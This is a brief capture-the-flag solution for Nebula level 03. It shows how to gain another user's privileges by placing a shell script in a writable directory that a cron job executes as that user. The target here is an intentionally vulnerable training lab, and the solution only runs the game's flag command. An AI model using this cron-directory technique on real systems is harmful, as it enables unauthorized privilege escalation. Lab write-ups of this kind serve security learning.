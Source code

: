 .. _nebula03:

.. role(code)
   :language: bash

Nebula 3
========

Basic Information
-----------------

**Home Page** https://exploit-exercises.com/nebula/level03/

Solution
--------

Create an script with this:
.. code-block:: bash

   #!/bin/sh

   /bin/getflag >> /tmp/flag03.out

   $ cp getflag.sh /home/flag03/writable.d/

.. note:: You have to wait until cron gets executed or execute the program given
